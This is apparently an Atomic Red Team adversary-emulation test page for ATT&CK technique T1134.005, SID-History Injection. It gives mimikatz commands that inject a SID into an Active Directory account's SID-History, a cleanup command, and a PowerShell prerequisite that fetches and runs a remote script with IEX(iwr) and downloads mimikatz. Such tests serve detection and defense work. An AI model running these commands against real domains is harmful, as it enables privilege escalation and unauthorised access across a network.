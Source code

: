 ```yaml
---
tags: [T1134_005, atomic_test]
filename: "[[T1134.005|T1134.005 - Access Token Manipulation: SID-History Injection]]"
---
```


# T1134.005 - Access Token Manipulation: SID-History Injection
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1134/005)
<blockquote>Adversaries may use SID-History Injection to escalate privileges and bypass access controls. The Windows security identifier (SID) is a unique value that identifies a user or group account. SIDs are used by Windows security in both security descriptors and access tokens. (Citation: Microsoft SID) An account can hold additional SIDs in the SID-History Active Directory attribute (Citation: Microsoft SID-History Attribute), allowing inter-operable account migration between domains (e.g., all values in SID-History are included in access tokens).

With Domain Administrator (or equivalent) rights, harvested or well-known SID values (Citation: Microsoft Well Known SIDs Jun 2017) may be inserted into SID-History to enable impersonation of arbitrary users/groups such as Enterprise Administrators. This manipulation may result in elevated access to local resources and/or access to otherwise inaccessible domains via lateral movement techniques such as [Remote Services](https://attack.mitre.org/techniques/T1021), [SMB/Windows Admin Shares](https://attack.mitre.org/techniques/T1021/002), or [Windows Remote Management](https://attack.mitre.org/techniques/T1021/006).</blockquote>

## Atomic Tests

- [Atomic Test #1 - Injection SID-History with mimikatz](#atomic-test-1---injection-sid-history-with-mimikatz)


<br/>

## Atomic Test #1 - Injection SID-History with mimikatz
Adversaries may use SID-History Injection to escalate privileges and bypass access controls. Must be run on domain controller

**Supported Platforms:** Windows


**auto_generated_guid:** 6bef32e5-9456-4072-8f14-35566fb85401





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| sid_to_inject | SID to inject into sidhistory | string | S-1-5-21-1004336348-1177238915-682003330-1134|
| sam_account_name | Target account to modify | string | $env:username|
| mimikatz_path | Mimikatz windows executable | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;mimikatz&#92;x64&#92;mimikatz.exe|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
#{mimikatz_path} "privilege::debug" "sid::patch" "sid::add /sid:#{sid_to_inject} /sam:#{sam_account_name}" "exit"
```

#### Cleanup Commands:
```cmd
#{mimikatz_path} "sid::clear /sam:#{sam_account_name}" "exit"
```



#### Dependencies:  Run with `powershell`!
##### Description: Mimikatz executor must exist on disk and at specified location (#{mimikatz_path})
##### Check Prereq Commands:
```powershell
$mimikatz_path = cmd /c echo #{mimikatz_path}
if (Test-Path $mimikatz_path) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-FetchFromZip.ps1" -UseBasicParsing) 
$releases = "https://api.github.com/repos/gentilkiwi/mimikatz/releases"
$zipUrl = (Invoke-WebRequest $releases | ConvertFrom-Json)[0].assets.browser_download_url | where-object { $_.endswith(".zip") }
$mimikatz_exe = cmd /c echo #{mimikatz_path}
$basePath = Split-Path $mimikatz_exe | Split-Path
Invoke-FetchFromZip $zipUrl "x64/mimikatz.exe" $basePath
```




<br/>
